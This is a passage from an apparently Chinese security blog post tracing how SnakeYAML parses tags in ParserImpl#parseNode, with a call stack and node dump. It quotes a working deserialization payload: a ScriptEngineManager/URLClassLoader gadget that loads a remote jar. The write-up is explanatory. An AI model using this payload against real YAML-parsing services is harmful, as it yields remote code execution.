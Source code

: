 ```java
public static final String PREFIX = "tag:yaml.org,2002:";
public static final Tag YAML = new Tag("tag:yaml.org,2002:yaml");
public static final Tag MERGE = new Tag("tag:yaml.org,2002:merge");
public static final Tag SET = new Tag("tag:yaml.org,2002:set");
public static final Tag PAIRS = new Tag("tag:yaml.org,2002:pairs");
public static final Tag OMAP = new Tag("tag:yaml.org,2002:omap");
public static final Tag BINARY = new Tag("tag:yaml.org,2002:binary");
public static final Tag INT = new Tag("tag:yaml.org,2002:int");
public static final Tag FLOAT = new Tag("tag:yaml.org,2002:float");
public static final Tag TIMESTAMP = new Tag("tag:yaml.org,2002:timestamp");
public static final Tag BOOL = new Tag("tag:yaml.org,2002:bool");
public static final Tag NULL = new Tag("tag:yaml.org,2002:null");
public static final Tag STR = new Tag("tag:yaml.org,2002:str");
public static final Tag SEQ = new Tag("tag:yaml.org,2002:seq");
public static final Tag MAP = new Tag("tag:yaml.org,2002:map");
```

而tag具体的替换以及整个payload重新组合的逻辑在`ParserImpl#parseNode()`方法中
[![img](https://gitee.com/shine05/myblog-gallery/raw/master/img/1835657-20220505160300993-1105587901.png)](https://img2022.cnblogs.com/blog/1835657/202205/1835657-20220505160300993-1105587901.png)

调用栈如下

```avrasm
parseNode:426, ParserImpl (org.yaml.snakeyaml.parser)
access$1300:117, ParserImpl (org.yaml.snakeyaml.parser)
produce:359, ParserImpl$ParseBlockNode (org.yaml.snakeyaml.parser)
peekEvent:158, ParserImpl (org.yaml.snakeyaml.parser)
checkEvent:148, ParserImpl (org.yaml.snakeyaml.parser)
composeNode:136, Composer (org.yaml.snakeyaml.composer)
getNode:95, Composer (org.yaml.snakeyaml.composer)
getSingleNode:119, Composer (org.yaml.snakeyaml.composer)
getSingleData:150, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:490, Yaml (org.yaml.snakeyaml)
load:416, Yaml (org.yaml.snakeyaml)
```

所以我们之前传入的payload

```lua
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:9000/yaml-payload.jar"]
  ]]
]
```

会变为如下的一种形式

```php-template
<org.yaml.snakeyaml.nodes.SequenceNode (tag=tag:yaml.org,2002:javax.script.ScriptEngineManager, value=[<org.yaml.snakeyaml.nodes.SequenceNode (tag=tag:yaml.org,2002:java.net.URLClassLoader, value=[<org.yaml.snakeyaml.nodes.SequenceNode (tag=tag:yaml.org,2002:seq, value=[<org.yaml.snakeyaml.nodes.SequenceNode (tag=tag:yaml.org,2002:java.net.URL, value=[<org.yaml.snakeyaml.nodes.ScalarNode (tag=tag:yaml.org,2002:str, value=http://127.0.0.1:9000/yaml-payload.jar)>])>])>])>])>
```
